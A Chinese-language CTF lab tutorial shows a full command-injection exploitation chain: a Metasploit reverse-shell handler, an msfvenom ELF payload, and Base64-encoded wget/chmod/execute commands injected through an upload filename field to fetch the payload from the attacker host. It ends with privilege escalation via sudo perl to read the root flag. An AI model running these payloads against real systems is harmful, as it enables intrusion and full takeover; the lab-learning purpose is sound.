# CTF夺旗赛教程：P23：25.命令注入2 🚩

在本节课中，我们将学习如何利用上节课发现的命令注入漏洞，通过一系列步骤获取靶场机器的控制权，并最终取得Flag值。我们将使用反弹Shell、权限提升等关键技术。

---

## 回顾与准备

上一节我们介绍了如何利用`searchsploit`工具发现并验证了命令注入漏洞。本节中，我们将利用这个漏洞来获取靶场机器的访问权限。

在进行攻击之前，需要完成以下准备工作。

以下是攻击流程中的关键准备步骤：
1.  启动Metasploit监听反弹Shell。
2.  生成一个用于反弹的Shell可执行文件。
3.  启动Apache服务器，以便靶机下载我们的Shell文件。

---



## 步骤一：配置攻击环境 🛠️



首先，我们需要在攻击机（Kali）上设置监听，等待靶机反弹连接回来。





打开终端，输入以下命令启动Metasploit控制台：
```bash
msfconsole
```
在Metasploit中，依次执行以下命令配置监听模块和载荷：
```bash
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.1.106  # 替换为你的Kali攻击机IP
set LPORT 4444
exploit
```
执行`exploit`后，Metasploit开始在4444端口监听。



---



## 步骤二：生成Shell载荷

接下来，我们需要生成一个Linux下的可执行Shell文件，并放置在Web服务器目录下，供靶机下载。

打开一个新的终端，使用`msfvenom`工具生成ELF格式的Shell文件：
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.106 LPORT=4444 -f elf > /var/www/html/shell.elf
```
这条命令会生成一个名为`shell.elf`的文件，并保存到Apache的默认根目录`/var/www/html/`下。

然后，启动Apache服务，确保文件可以通过HTTP访问：
```bash
service apache2 start
```

---



## 步骤三：构造攻击命令 🔧





由于靶场可能部署了防火墙，直接执行命令可能被拦截。因此，我们将要执行的命令进行Base64编码以绕过检测。



我们需要让靶机依次执行以下三条命令：
1.  下载攻击机上的`shell.elf`文件。
2.  给下载的文件赋予可执行权限。
3.  执行该文件，反弹Shell。



以下是每条命令及其Base64编码后的形式：



**1. 下载文件命令：**
```bash
wget http://192.168.1.106/shell.elf -O /tmp/A
```
Base64编码后：
```
d2dldCBodHRwOi8vMTkyLjE2OC4xLjEwNi9zaGVsbC5lbGYgLU8gL3RtcC9B
```



**2. 赋予执行权限命令：**
```bash
chmod 777 /tmp/A
```
Base64编码后：
```
Y2htb2QgNzc3IC90bXAvQQ==
```



**3. 执行文件命令：**
```bash
/tmp/A
```
Base64编码后：
```
L3RtcC9B
```





---



## 步骤四：利用漏洞执行命令 💻

现在，我们将利用之前发现的命令注入漏洞，通过修改HTTP请求参数，让靶机执行我们编码后的命令。





我们使用Burp Suite工具来拦截和修改上传文件的请求。

操作流程如下：
1.  开启Burp Suite代理并拦截浏览器流量。
2.  访问靶场文件上传页面，选择任意文件上传。
3.  在Burp Suite的`Proxy` -> `Intercept`标签页中，拦截到上传请求。
4.  将请求发送到`Repeater`模块进行修改。




在`Repeater`中，找到`filename`参数，将其值修改为以下格式，以执行第一条下载命令：
```
test.php; system(base64_decode(‘d2dldCBodHRwOi8vMTkyLjE2OC4xLjEwNi9zaGVsbC5lbGYgLU8gL3RtcC9B’));
```
点击`Send`发送请求。





接着，在`Repeater`中新建标签页，重复拦截和修改过程，分别执行第二和第三条命令（替换`base64_decode`中的内容为对应的编码字符串）。



当第三条命令执行成功后，返回Metasploit控制台，可以看到已经成功接收到一个来自靶机的Meterpreter会话。





---



## 步骤五：权限提升与获取Flag 🏆



成功反弹Shell后，我们通常获得的不是最高权限。需要查看当前用户权限并尝试提权。



在Metasploit会话中，输入`shell`命令进入靶机的命令行，然后执行：
```bash
id
```
输出显示当前用户是`www-data`，并非root。



接下来，查看当前用户可以通过`sudo`执行哪些命令：
```bash
sudo -l
```
输出显示用户`www-data`可以无需密码以root身份运行`/usr/bin/perl`。



利用这一点，我们使用Perl来启动一个具有root权限的bash shell：
```bash
sudo perl -e ‘exec “/bin/bash”‘
```
执行后，再输入`bash -i`启动交互式shell。此时命令提示符变为`#`，表明已获得root权限。




最后，寻找Flag文件。Flag通常位于根目录或特定用户目录下：
```bash
cd /root
ls
cat flag.txt
```
执行`cat flag.txt`即可看到最终的Flag值。

---





## 总结 📝



本节课中我们一起学习了命令注入漏洞的完整利用流程。从配置监听、生成载荷，到构造编码命令绕过防护，最终通过漏洞执行命令反弹Shell、提权并获取Flag。

关键要点如下：
*   **信息收集至关重要**：充分收集目标信息是渗透测试成功的基础。
*   **优先使用已知利用**：在CTF或实际测试中，如果存在公开的漏洞利用（EXP），应优先尝试使用，这比挖掘零日漏洞更高效。
*   **掌握绕过技巧**：使用Base64编码等方式绕过防火墙或安全检测是常用的手段。



通过本课的学习，你应该对Web渗透测试中命令注入漏洞的利用有了更深入的理解。我们下节课再见！